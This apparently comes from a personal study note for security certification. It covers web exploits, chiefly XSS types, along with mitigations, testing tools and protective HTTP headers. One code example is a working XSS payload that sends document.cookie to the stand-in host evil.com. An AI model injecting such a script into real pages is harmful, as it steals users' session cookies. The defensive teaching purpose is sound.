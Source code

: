 **Web exploits** target vulnerabilities in websites and web applications to manipulate data, execute code, or compromise users. One of the most common and dangerous classes of web exploits is **Cross-Site Scripting (XSS)**.

---

## 🎯 Goals of Web Exploits

- Steal user data (cookies, tokens, credentials)
- Perform unauthorized actions (via session hijacking or injection)
- Bypass authentication or input validation
- Compromise the integrity and availability of web applications

---

## 💥 What is XSS (Cross-Site Scripting)?

**XSS** is an attack that injects **malicious scripts** (typically JavaScript) into web pages viewed by other users. The malicious script runs in the context of the victim’s browser.

---

## 🚦 Types of XSS Attacks

| Type             | Description                                                                 | Example |
|------------------|-----------------------------------------------------------------------------|---------|
| **Stored XSS**   | Malicious script is saved on the server and delivered to all users          | Comment forms, forums |
| **Reflected XSS**| Malicious script is in the URL or request and reflected back in the response| Search boxes, error pages |
| **DOM-based XSS**| The browser's client-side JavaScript modifies the DOM unsafely              | Front-end JS frameworks |

---

## 🧪 XSS Example

```html
<script>fetch('http://evil.com/steal?cookie=' + document.cookie)</script>
```
This script could be injected into a vulnerable comment field, stealing session cookies from users who view the page.

## 🔍 Other Common Web Exploits

|Exploit Type|Description|
|---|---|
|**SQL Injection (SQLi)**|Injecting malicious SQL commands to manipulate databases|
|**Command Injection**|Execute system commands on the server|
|**CSRF**|Tricks users into making unwanted actions while authenticated|
|**File Inclusion (LFI/RFI)**|Load arbitrary server or external files|
|**Directory Traversal**|Access unauthorized directories via path manipulation|
|**Broken Authentication**|Exploit session management flaws to impersonate users|
|**Clickjacking**|Tricking users into clicking hidden elements|

---

## 🛡️ XSS Mitigation Techniques

|Defense Layer|Technique|
|---|---|
|**Input Validation**|Reject or sanitize input on all user fields|
|**Output Encoding**|Encode all output contexts (HTML, JS, URL, attributes)|
|**CSP (Content Security Policy)**|Restrict where scripts can be loaded from|
|**HttpOnly Cookies**|Prevent JavaScript from accessing session cookies|
|**Sanitization Libraries**|Use tools like DOMPurify, OWASP Java Encoder|

---

## 🧱 General Web Exploit Mitigations

- ✅ Use **parameterized queries** to prevent SQLi
- ✅ Enable **input whitelisting** over blacklisting
- ✅ Implement **secure authentication & session management**
- ✅ Apply **least privilege** for database and file access
- ✅ Keep frameworks and platforms **patched and updated**
- ✅ Use **Web Application Firewalls (WAFs)** to detect/block common attacks

---

## 🧠 Tools for Testing Web Exploits

|Tool|Purpose|
|---|---|
|**Burp Suite**|Intercept, modify, and replay HTTP requests|
|**OWASP ZAP**|Automated web vulnerability scanner|
|**sqlmap**|Automated SQL injection testing|
|**BeEF**|Browser exploitation framework|
|**Nikto**|Scan for outdated/vulnerable web servers|

---

## 📋 HTTP Headers That Help

|Header|Purpose|
|---|---|
|`Content-Security-Policy`|Mitigates XSS by controlling source of scripts|
|`X-Content-Type-Options`|Prevents MIME-sniffing attacks|
|`X-Frame-Options`|Defends against clickjacking|
|`Set-Cookie: HttpOnly; Secure; SameSite=Strict`|Protects session cookies|

---

## 🗂 Related Topics

- [[OWASP Top 10]]
- [[Secure Web Application Design]]
- [[Content Security Policy (CSP)]]
- [[Session Hijacking]]
- [[SQL Injection]]
- [[Authentication Attacks]]

---

## 🏷 Tags

#xss #web_exploits #sql_injection #csrf #dom_xss #stored_xss #reflected_xss #web_security #owasp #security+ #input_validation
